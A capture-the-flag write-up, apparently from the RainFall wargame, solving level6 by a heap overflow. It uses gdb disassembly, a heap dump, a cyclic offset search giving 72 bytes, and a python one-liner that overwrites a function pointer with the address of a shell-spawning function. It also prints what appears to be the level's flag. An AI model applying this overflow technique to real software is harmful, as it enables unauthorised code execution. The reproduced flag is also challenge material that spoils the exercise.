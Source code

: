 ```
0x08048454  n // shell
0x08048468  m // call puts
0x0804847c  main
```


b at
```
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
=> 0x080484ca <+78>:	mov    0x18(%esp),%eax
```
send 64 chars and inspect the heap

(gdb) info proc mappings

heap starts at 0x804a000

```
(gdb) x/40wx 0x804a000

0x804a000:	0x00000000	0x00000049	0x41414141	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x00000000	0x00000011
0x804a050:	0x08048468

```
addr of func m() [0x08048468] could be seen in the heap 8 addr away from argv[1]
```
(gdb) p 64 + 4 + 4
$1 = 72
```


```
level6@RainFall:~$ ./level6  $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

```
man strcpy

SECURITY CONSIDERATIONS
     The strcpy() function is easily misused in a manner which enables mali-
     cious users to arbitrarily change a running program's functionality
     through a buffer overflow attack.
```

buffer argv1 is `movl   $0x40,(%esp)` = 64, we fuzz until the binary segv:

or maybe try cyclic tool:
```
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
pass it as argv in gdb:
```
(gdb) run "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"

Program received signal SIGSEGV, Segmentation fault.
0x61616173
```

```
unhex 61616173 | rev
saaa

cyclic -l saaa
72
```
```
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72')
Segmentation fault (core dumped)
```
overflow the EIP with the addr of n()  0x08048454 
```
./level6 $(python -c 'print "A"*72 + "\x08\x04\x84\x54"[::-1]')
```











